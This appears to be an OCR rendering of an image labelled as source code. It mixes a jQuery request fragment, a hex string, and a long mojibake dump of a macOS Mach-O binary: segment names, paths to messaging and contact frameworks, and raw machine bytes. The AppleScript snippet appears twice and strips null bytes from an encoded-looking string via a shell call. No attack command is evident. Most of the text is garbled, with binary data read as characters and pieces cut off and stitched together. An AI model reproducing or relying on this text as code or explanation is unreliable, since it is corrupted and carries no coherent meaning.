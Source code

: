 $.get("messages(0)
.txt").success(function(data, status, response) {
var text = response.responseText;4C304E494C305A514C3055764C305A46
€ 5 è … H
PAGEZERO
P P
__
X) €
__
text
stubs
__
__
__
TEXT X) g
TEXT ^�
ö ^�
€
stub
__
_
helper
TEXT T”
__
ª T”
€
methname
__
objc
_
__
TEXT þš
TEXT
__
6¸ þš
__
objc
classname
_
__
TEXT 4S
4S
__
objc
_
methtype
__
TEXT Ba
~J Ba
__
cstring __
TEXT À«
mõ À«
const
__
__
TEXT 0¡ H 0¡
__gcc
_
except
tab
_
__
TEXT x¦ Z x¦ __
oslogstring __
TEXT
� s/ � __
ustring __
TEXT 0 Ê 0
unwind
info
__
_
__
TEXT Ð1 ( Ð1 8
DATA P Ð
__
P Ð
nl
__
_
symbol
_ptr
DATA P P ©
__
__got
DATA P P «
la
__
__
_
symbol
_ptr
DATA °X H °X
__
¿ __
const
__
DATA ø] P6 ø] __
cfstring __
DATA
H” @‘ H”
__
objc
classlist
DATA ˆ% h ˆ%
_
__
__
objc
catlist
DATA ð' ø ð'
_
__
__
objc
_protolist
__
DATA è(
Ð è( __
objc
_
imageinfo
__
DATA ¸
*
*
__
objc
const
DATA À* P5 À*
selrefs
_
__
�h `
__
objc
_protorefs
__
__
objc
classrefs
DATA ¨È à ¨È
_
__
ˆÑ è ˆÑ
__
objc
ivar
_
objc
data
DATA hâ hâ
¸
__
objc
_
__
DATA È È
__
objc
_
superrefs
__
DATA pÓ ø pÓ
data
DATA `
DATA
__
DATA xú
__
_
__
__
__
ø xú
bss
__
__
DATA p
common
__
__
DATA � H
LINKEDIT
__
ðø " €0 h h8 PV ¸Ž ˆ @£ & ˆÛ " H' ˆ
…
P M N Ô ¨ h /usr/lib/dyld ’Äz­ ý5‰
‹wz!xI2
set cString to "ø©oo6ÑÞ¨En©Î6«¬q{ ÈéBKÛ×?\:
:g®IÏ )Óâ×u4Sgüæ¥Ãv
5\æ§ÞE¸
>
E
^
Ä
-dàñ©,¢øn*ÎUAìÜ³&áÆþÞÛZÒÐÜ÷Y¡º\"Ü¢¾È|îüÙ+O5|øÇO²

Y?s®,
³ÐAL¶òÉCÎYVÉ|Í|@ñ*)EîÜ$ßÕÔòÚòpèª
¹#¿Ì\ðújöº<AÿkmfÏ/"
-- Remove any trailing null characters



set cleanedString to do shell script "echo " & quoted form of cString & " | tr -d '\\0'"
-- Output the cleaned string
return cleanedString
set cString to "ø©oo6ÑÞ¨En©Î6«¬q{ ÈéBKÛ×?\:
:g®IÏ )Óâ×u4Sgüæ¥Ãv
5\æ§ÞE¸
>
E
^
Ä

-dàñ©,¢øn*ÎUAìÜ³&áÆþÞÛZÒÐÜ÷Y¡º\"Ü¢¾È|îüÙ+O5|øÇO²

Y?s®,
³ÐAL¶òÉCÎYVÉ|Í|@ñ*)EîÜ$ßÕÔòÚòpèª
¹#¿Ì\ðújöº<AÿkmfÏ/"
-- Remove any trailing null characters
set cleanedString to do shell script "echo " & quoted form of cString & " | tr -d '\\0'"

-- Output the cleaned string
return cleanedString
™ * À è ( € X) h
/System/Library/Frameworks/BusinessChat.framework/Versions/A/BusinessChat p
/System/Library/PrivateFrameworks/FamilyControls.framework/Versions/A/FamilyControls X
/System/Library/Frameworks/Intents.framework/Versions/A/Intents
` b
/System/Library/Frameworks/ContactsUI.framework/Versions/A/ContactsUI €
/System/Library/PrivateFrameworks/ContactsAutocomplete.framework/Versions/A/ContactsAuto
complete h
/System/Library/Frameworks/AVFoundation.framework/Versions/A/AVFoundation p †
/System/Library/PrivateFrameworks/DataDetectors.framework/Versions/A/DataDetectors X
/System/Library/Frameworks/Quartz.framework/Versions/A/Quartz p
/System/Library/PrivateFrameworks/IMDPersistence.framework/Versions/A/IMDPersistence
`
/System/Library/PrivateFrameworks/Marco.framework/Versions/A/Marco
` b
/System/Library/Frameworks/AddressBook.framework/Versions/A/AddressBook `
/System/Library/PrivateFrameworks/IMCore.framework/Versions/A/IMCore x
/System/Library/PrivateFrameworks/IMSharedUtilities.framework/Versions/A/IMSharedUtilities
X /System/Library/Frameworks/Cocoa.framework/Versions/A/Cocoa € ª
/System/Library/PrivateFrameworks/CrashReporterSupport.framework/Versions/A/CrashReport
erSupport h
/System/Library/PrivateFrameworks/FTServices.framework/Versions/A/FTServices h
/System/Library/PrivateFrameworks/AuthKitUI.framework/Versions/A/AuthKitUI `
/System/Library/PrivateFrameworks/AuthKit.framework/Versions/A/AuthKit h
/System/Library/PrivateFrameworks/IMSharedUI.framework/Versions/A/IMSharedUI h
/System/Library/PrivateFrameworks/MessagesKit.framework/Versions/A/MessagesKit x
Ù
/System/Library/PrivateFrameworks/PerformanceAnalysis.framework/Versions/A/PerformanceA
nalysis p |
/System/Library/PrivateFrameworks/SocialAppsCore.framework/Versions/A/SocialAppsCore h
| /System/Library/PrivateFrameworks/SocialUI.framework/Versions/A/SocialUI x
/System/Library/PrivateFrameworks/TelephonyUtilities.framework/Versions/A/TelephonyUtilities
` /System/Library/PrivateFrameworks/ToneKit.framework/Versions/A/ToneKit h

/System/Library/PrivateFrameworks/ToneLibrary.framework/Versions/A/ToneLibrary X
^ /System/Library/Frameworks/WebKit.framework/Versions/A/WebKit `
,
/System/Library/Frameworks/Foundation.framework/Versions/C/Foundation 8 ä
/usr/lib/libobjc.A.dylib 8 Èä /usr/lib/libSystem.B.dylib X l ‡ -
/System/Library/Frameworks/AppKit.framework/Versions/C/AppKit h –
/System/Library/Frameworks/CoreFoundation.framework/Versions/A/CoreFoundation h
á @ /System/Library/Frameworks/CoreGraphics.framework/Versions/A/CoreGraphics h /System/Library/Frameworks/CoreServices.framework/Versions/A/CoreServices
X
/System/Library/Frameworks/ImageIO.framework/Versions/A/ImageIO h
/System/Library/Frameworks/InstantMessage.framework/Versions/A/InstantMessage
`
/System/Library/Frameworks/QuartzCore.framework/Versions/A/QuartzCore H k
/usr/lib/libDiagnosticMessagesClient.dylib & `É Ð ) 0Û X Ð¬ l
UH‰åAWAVAUATSH�ì˜ I‰öA‰ýAƒý |xI‹^ H�5%„
H‰ßè½j
…À „4 H�5 „
H‰ßè¦j
…À „o H�5 „
H‰ßè�j
…À „
<
H�5
„
H‰ßèxj
…Àu H‹=eŸ H‹5.9 ò vw ÿ ¨
. L‰µhÿÿÿH‹=JŸ L‹= 9 L‰þÿ Š. H‰ÇèÌi
H‰Ã¾ H‰ßè
j
A‰ÆH‰ßÿ n. E„öt H�=jk è‹h
H‹=þž H‹ G. L‰þÿÓH‰Çè„i
I‰ÆH‹=àž L‰þÿÓH‰Çèmi
H‰ÃH�5oƒ
H‰ßèµi
I‰ÇH‰ßÿ
. I�G Hƒø r[L‰÷è‘i
„ÀtOH‰ãH‰àH�HðH‰ÌfÇ@ð Hƒì H‰ $ÇD$ H�=-ÕÿÿL� ¼Õ L�
